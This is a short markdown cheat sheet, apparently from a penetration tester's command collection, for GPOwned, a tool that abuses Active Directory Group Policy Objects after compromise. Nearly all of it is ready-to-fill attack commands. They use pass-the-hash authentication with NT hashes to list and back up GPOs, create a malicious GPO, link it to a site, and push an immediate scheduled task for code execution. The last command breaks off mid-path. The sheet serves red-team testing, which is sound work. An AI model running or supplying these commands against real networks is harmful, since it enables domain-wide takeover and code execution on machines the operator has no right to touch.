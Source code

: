 # GPOwned

% Active directory, gpo 
#plateform/linux #target/remote #cat/POSTEXPLOIT/GPO  


## GPOwned - desc
```
The script uses impacket and ldap3 to update the GPOs. It implements enough primitives that can be combined (just need to perform minor changes in the code) to achieve different ways of code execution (DLL hijacking, COM junctions, shortcut poisoning, etc.)
```

## GPOwned - repo
```
https://github.com/X-C3LL/GPOwned
```

## GPOwned - doc
```
```

## GPOwned - install
```
```

## list GPO
```
GPOwned.py -u <user> -hashes :<nt_hash> -d <domain_fqdn> -dc-ip <dc_fqdn> -listgpo -gpcmachine
```

## backup GPO
```
GPOwned.py -u <user> -hashes :<nt_hash> -d <domain_fqdn> -dc-ip <dc_fqdn> -gpcmachine  -backup <backup_name> -name "{<gpo_cn>}"
```

## create GPO
```
GPOwned.py -u <user> -hashes :<nt_hash> -d <domain_fqdn> -dc-ip <dc_fqdn> -gpcmachine -creategpo -name "<gpo_name|jubeaz>" -comment "<gpo_comment|pwn>"
```

## link GPO to a site
```
GPOwned.py -u <user> -hashes :<nt_hash> -d <domain_fqdn> -dc-ip <dc_fqdn> -gpcmachine -linkgpotosite -name "<gpo_name|jubeaz>" -sitename "<site_name|Default-First-Site-Name>"
```

## immediate tasks
```bash
python3 GPOwned.py -u <user>  -p <password> -d <domain_fqdn> -dc-ip <dc_fqdn> -gpcmachine -gpoimmtask -name '{<gpo_guid>}' -author '<gpo_name|jubeaz>' -taskname '<task_name|jubeaz>C' -taskdescription '<gpo_desc|jubeaz>' -dstpath 'c:\windows\system32
```